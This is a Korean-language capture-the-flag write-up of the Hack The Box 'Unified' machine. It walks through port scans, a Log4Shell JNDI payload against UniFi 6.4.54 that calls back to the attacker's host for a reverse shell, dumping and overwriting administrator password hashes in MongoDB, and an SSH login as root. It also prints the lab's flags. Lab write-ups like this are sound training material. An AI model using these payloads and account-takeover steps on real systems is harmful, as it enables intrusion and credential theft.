

> 여러 번 machine을 재실행하여 write-up 내용에 ip가 서로 상이하지만, 실제론 한 문제의 동일한 환경이다.
{: .prompt-tip }


## [0x00] port Scan
---
port 스캔 결과 22, 6789, 8080, 8443이 열려 있다. 이 중 ibm-db2-admin은 IBM DB2 데이터베이스의 관리자 인터페이스에 대한 포트가 열려 있음을 나타내는 것으로 보인다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# nmap 10.129.147.107 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-28 12:55 UTC
Nmap scan report for 10.129.147.107
Host is up (0.30s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
```
nmap -sCV 옵션으로 확인한 결과는 아래와 같다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sCV 10.129.74.224 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-11 05:41 EDT
Nmap scan report for 10.129.74.224
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.74.224:8443/manage
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Mon, 11 Mar 2024 09:42:05 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404
|     Found</h1></body></html>
|   GetRequest, HTTPOptions:
|     HTTP/1.1 302
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Mon, 11 Mar 2024 09:42:04 GMT
|     Connection: close
|   RTSPRequest:
|     HTTP/1.1 400
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Mon, 11 Mar 2024 09:42:05 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400
|     Request</h1></body></html>
|   Socks5:
|     HTTP/1.1 400
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Mon, 11 Mar 2024 09:42:06 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400
|_    Request</h1></body></html>
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
```

열려있는 8080 port로 접근 시 8443으로 redirect 되며 아래와 같이 로그인 화면이 나온다.


## [0x01] uniFi CVE-2021-44228
--- 
이번 문제의 경우 특정 제품의 버전 정보를 통해 cve를 찾는 듯하다. 위 페이지에서 획득한 정보는 'UniFi Network'와 관련된 것으로 보이며, 로고 밑에 적혀 있는 것과 같이 6.4.54 버전이다. 관련하여 정보를 검새해보니 Log4j에 취약한 프로그램으로 보이며, 관련된 [Python github PoC](https://github.com/puzzlepeaches/Log4jUnifi)가 존재한다. 


해당 툴을 사용하려면 우선 kali 환경에 설치가 필요하다.
``` bash
# apt install openjdk-11-jre maven
# git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi && cd Log4jUnifi && pip3 install -r requirements.txt
# mvn package -f utils/rogue-jndi/
```

사용 가이드에 있는 것과 같이 reverse shell 연결을 시도해보자.
``` bash
┌──(root㉿kali)-[/home/user/htb/Log4jUnifi]
└─# python exploit.py -u https://10.129.74.224:8443 -i 10.10.14.175 -p 443
[*] Starting malicous JNDI Server
{"username": "${jndi:ldap://10.10.14.175:1389/o=tomcat}", "password": "log4j", "remember": "${jndi:ldap://10.10.14.175:1389/o=tomcat}", "strict":true}
[*] Firing payload!
[*] Check for a callback!
```

분명 위와 같이 check for a callback! 이라고 나왔지만, shell 화면이 나오지 않아 기다렸다. 하지만 그대로 변하지 않기에 뭔가 입력해보니 "$"이나 "#"과 같은 표시가 안나타고있었을 뿐이였다.
``` bash
┌──(root㉿kali)-[/home/user/htb]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.175] from (UNKNOWN) [10.129.74.224] 46038
whoami
unifi
```
이제 쉘을 획득하였으니 어떤 정보가 있는지 확인해보자.

## [0x02] mongoDB 
---
우선 process 목록을 먼저 보니 mongod 를 통해 27117 port에서 mongoDB가 실행되고 있음을 알 수 있다. 추가로, 최소화된 프로세스 목록과 docker 키워드를 통해 하나의 컨테이너임을 알 수 있다.
``` bash
# ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
unifi          1       0  0 09:34 ?        00:00:00 /sbin/docker-init -- /usr/local/bin/docker-entrypoint.sh unifi
unifi          7       1  0 09:34 ?        00:00:00 bash /usr/local/bin/docker-entrypoint.sh unifi
unifi         17       7  1 09:34 ?        00:00:39 java -Dunifi.datadir=/unifi/data -Dunifi.logdir=/unifi/log -Dunifi.rundir=/var/run/unifi -Xmx1024M -Djava.awt.headless=true -Dfile.encoding=UTF-8 -jar /usr/lib/unifi/lib/ace.jar start
unifi         67      17  0 09:34 ?        00:00:08 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       1159    1155  0 10:12 ?        00:00:00 bash -i
unifi       1162    1159  0 10:12 ?        00:00:00 bash
unifi       1480    1162  0 10:24 ?        00:00:00 ps -ef
```

이후 /etc 경로에 mongodb.conf가 있음을 확인하였으나, 기본 설정 파일로 실제 적용된 옵션은 `ps -ef`에 나온 인자를 보아야 한다. 
``` bash
# cat /etc/mongodb.conf | grep -v "#"

dbpath=/var/lib/mongodb
logpath=/var/log/mongodb/mongodb.log
logappend=true
bind_ip = 127.0.0.1
journal=true
```

mongo에 접속하기 위해 아래와 같이 port와 shell 옵션을 주었더니, 성공적으로 연결 된 듯 하다.
``` bash
# mongo --port 27117 --shell
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/
MongoDB server version: 3.6.3
type "help" for help
help
        db.help()                    help on db methods
        db.mycoll.help()             help on collection methods
        sh.help()                    sharding helpers
        rs.help()                    replica set helpers
        help admin                   administrative help
        help connect                 connecting to a db help
        help keys                    key shortcuts
        help misc                    misc things to know
        help mr                      mapreduce

        show dbs                     show database names
        show collections             show collections in current database
        show users                   show users in current database
        show profile                 show most recent system.profile entries with time >= 1ms
        show logs                    show the accessible logger names
        show log [name]              prints out the last segment of log in memory, 'global' is default
        use <db_name>                set current database
        db.foo.find()                list objects in collection foo
        db.foo.find( { a : 1 } )     list objects in foo where a == 1
        it                           result of the last line evaluated; use to further iterate
        DBQuery.shellBatchSize = x   set default number of items to display on shell
        exit                         quit the mongo shell

```

접속한 mongo를 통해 각 내용을 확인해보자. dbs에는 ace 항목만 유일하게 용량이 있는 것을 알 수 있다.
``` bash
show dbs
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB

show users

show profile
db.system.profile is empty
Use db.setProfilingLevel(2) will enable profiling
Use db.system.profile.find() to show raw profile entries
```

mongodb에서는 db.xx.xx() 와 같은 형태로 다양한 기능을 사용할 수 있다. 우선 아래와 같이 db.admin.find() 명령을 통해 사용자 목록 조회가 가능하다. 아래와 같이 administrator에 대한 hash값이 존재한다. 다만 해당 값을 직접 크랙하기에는 거의 불가능에 가깝다.
``` bash
# db.admin.find()
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.,
...
{ "_id" : ObjectId("61ce4a63fbce5e00116f424f"), "email" : "michael@unified.htb", "name" : "michael", "x_shadow" : "$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0", "requires_new_password" : false, "time_created" : NumberLong(1640909411), "last_site_name" : "default", "email_alert_enabled" : false, "email_alert_grouping_enabled" : false, "email_alert_grouping_delay" : 60, "push_alert_enabled" : false }{ "_id" : ObjectId("61ce4ce8fbce5e00116f4251"), "email" : "seamus@unified.htb", "name" : "Seamus", "x_shadow" : "$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC.", "requires_new_password" : true, "time_created" : NumberLong(1640910056), "last_site_name" : "default" }
...
```

## [0x03] change x_shadow
---
mongo에는 `db.admin.find()`와 마찬가지로 항목을 업데이트 하는 `db.admin.update()`가 존재한다. 직접 패스워드 crack을 할 수는 없으니, 임의의 값으로 update 시키고자 한다.

우선 해당 shadow 값을 만들기 위해 어떤 알고리즘을 사용했는지 보자. `$6$Ry6Vdbse$8e`는 `$알고리즘ID$salt$암호화된패스워드` 값을 각각 의미하며, 알고리즘ID가 6인 경우는 SHA512이다.

알고리즘 ID
- 1: MD5
- 2: BlowFish
- 5: SHA-256
- 6: SHA-512

각 알고리즘에 맞는 패스워드를 생성해주는 도구도 존재하기에 편하게 생성 가능하다. `mkpasswd`를 통해 'temp_password'에 대한 hash 값을 획득하였다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# mkpasswd -m sha-512 temp_password
$6$91MIYRtYntosD8IH$E993UyqhPsVRjCjT4K02XiTqh07BZXOx4Od8t16MLTq14c5hBZ4kHfy4tUrVBiu3vSRaci9f49p7AUPtEX0MW.
```

다시 mongo에 접속해서 db.admin.update로 x_shadow 값을 업데이트 시켜보자. (다른 풀이 중에는 insert로 계정을 추가하는 방식도 존재한다.)
``` bash
# use ace

# db.admin.update({ "_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow" : "$6$91MIYRtYntosD8IH$E993UyqhPsVRjCjT4K02XiTqh07BZXOx4Od8t16MLTq14c5hBZ4kHfy4tUrVBiu3vSRaci9f49p7AUPtEX0MW."}})
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })

# db.admin.find()
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$91MIYRtYntosD8IH$E993UyqhPsVRjCjT4K02XiTqh07BZXOx4Od8t16MLTq14c5hBZ4kHfy4tUrVBiu3vSRaci9f49p7AUPtEX0MW.", "time_created" : NumberLong(1640900495), "last_site_name" : "default", "ui_settings" : { "neverCheckForUpdate" : true...
```


## [0x04] login administrator & get root flag
---
성공적으로 hash값이 변경되었다면 로그인을 해보자. 아래와 같이 성공적으로 로그인 할 수 있다.


administrator로 로그인한 만큼, 관리자 설정 부분을 먼저 확인하였다. 아래와 같이 ssh 자동 로그인과 관련된 설정에서 root 계정의 암호를 확인할 수 있다.


이제 ssh를 통해 로그인 해보자.
``` bash
┌──(root㉿kali)-[/home/user]
└─# ssh root@10.129.163.168
root@10.129.163.168's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

root@unified:~#
```

root로 로그인하면 바로 root.txt 파일에 접근이 가능하다.
``` bash
root@unified:~# ls
root.txt
root@unified:~# cat root.txt
    e50bc93c75b634e4b272d2f771c33681
```

## [0x05] get user flag
---
위의 내용 중 michael 사용자 폴더가 존재하여 접근해보니 flag 파일 중 하나가 있다.
``` bash
# ls -al /home/michael
total 28
drwxr-xr-x 3 1000 1000 4096 Jan  2  2022 .
drwxr-xr-x 1 root root 4096 Mar 11 09:34 ..
lrwxrwxrwx 1 1000 1000    9 Dec 31  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Dec 30  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3771 Dec 30  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Dec 30  2021 .profile
drwx------ 2 1000 1000 4096 Jan  2  2022 .ssh
-rw-r--r-- 1 root 1000   33 Dec 30  2021 user.txt
# cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

## [0x06] conclusion
---
해당 문제의 경우 log4shell과 moongo를 이용하여 풀어야하는 문제였다. mongo 관련 된 부분은 매우 낯설었다. db와 관련된 부분도 확실히 좀 더 공부가 필요할 듯 하다.


